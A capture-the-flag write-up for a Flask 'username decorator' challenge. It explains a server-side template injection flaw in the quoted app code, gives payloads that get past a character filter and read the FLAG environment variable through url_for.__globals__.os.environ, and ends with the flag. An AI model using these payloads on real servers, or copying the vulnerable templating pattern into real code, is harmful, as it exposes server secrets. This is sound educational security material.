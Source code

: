 # Username Decorator (not ez)

#### Description

Author: JW/Mani

My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

For one, I know that I would really love to be *the* !! JW !!, so I made a website to preview these username changes.

**Note: the flag is in an environment variable is called `FLAG`**

#### Files

[App.py](./src/app.py)
------

### solve

First line shows the flag is hidden in environment vars, and the code to retrieve it as a string in app configuration:

```python
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'
```

reading the code we figure out we can inject code in the template, SSTI (Server-Side Template Injection)

```python
def index():
    prefix = ''
    username = ''
    suffix = ''
  
    if request.method == 'POST':
      prefix = (request.form['prefix'] or '')[:2]
      username = request.form['username'] or ''
      suffix = (request.form['suffix'] or '')[:2]
      if not validate_username(username): username = 'Invalid Username'

    template = '<!DOCTYPE html><html><body>\
    <form action="" method="post">\
      Prefix: <input name="prefix"> <br>\
      Username: <input name="username"> <br>\
      Suffix: <input name="suffix"> <br> \
      <input type="submit" value="Preview!">\
    </form><h2>%s %s %s</h2></body></html>' % (prefix, username, suffix)
    return render_template_string(template)
```

we can inject a two letter `prefix` and `suffix` and the code in the `username`
*BUT* there are some input checking on our `username`

```python
def validate_username(username):
  return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))
```

as a flask app we figure that the `prefix` is `{{` and `}}` as `suffix` and username would be python to retrieve environment variable `FLAG`.

Problem 1:
    `os` library is not imported.
        solution:
            we can use `__import__('os').getenv('FLAG')`

Problem 2:
username can't have nor single or double quotes.
    solution:
        we can use  `url_for.__globals__.os.__dict__` and `ctr + f` for `FLAG`
        or `url_for.__globals__.os.environ` or `url_for.__globals__.os.environ.FLAG`

**ctf{j4st_us3_pr0p3r_t3mp14t1ng_4lr34dy}**
